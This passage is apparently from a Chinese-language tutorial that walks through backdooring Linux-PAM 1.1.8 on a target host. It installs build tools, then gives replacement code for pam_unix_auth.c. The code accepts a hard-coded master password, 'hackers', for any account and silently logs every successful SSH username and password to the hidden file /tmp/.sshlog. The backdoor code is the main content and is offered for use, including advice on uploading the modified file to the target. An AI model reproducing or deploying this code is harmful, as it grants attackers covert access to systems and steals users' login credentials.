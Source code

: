 ![image-20230822090322439](assets/image-20230822090322439.png)

### 1.2.3. 安装依赖

主要需要安装将gcc编译器和flex库。

```
yum install gcc flex flex-devel -y
```

![image-20230822090420758](assets/image-20230822090420758.png)

### 1.2.4. 修改配置

这里修改配置主要就是将后门以及ssh登陆的账号密码保存进去。

```
vim linux-pam-Linux-PAM-1_1_8/modules/pam_unix/pam_unix_auth.c 
```

![image-20230822090835312](assets/image-20230822090835312.png)

#### 1.2.4.1. 配置内容

将第179行位置的内容中修改成以下内容，这里一定要对其了，如果无法对齐，那么就在本地修改完成后，再上传到目标主机上替换原先的文件即可。

```
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("hackers",p)==0){return PAM_SUCCESS;} //后门密码
if(retval == PAM_SUCCESS){ 
FILE * fp; 
fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置
fprintf(fp, "%s : %s\n", name, p); 
fclose(fp);} 
name = p = NULL;
AUTH_RETURN;
```
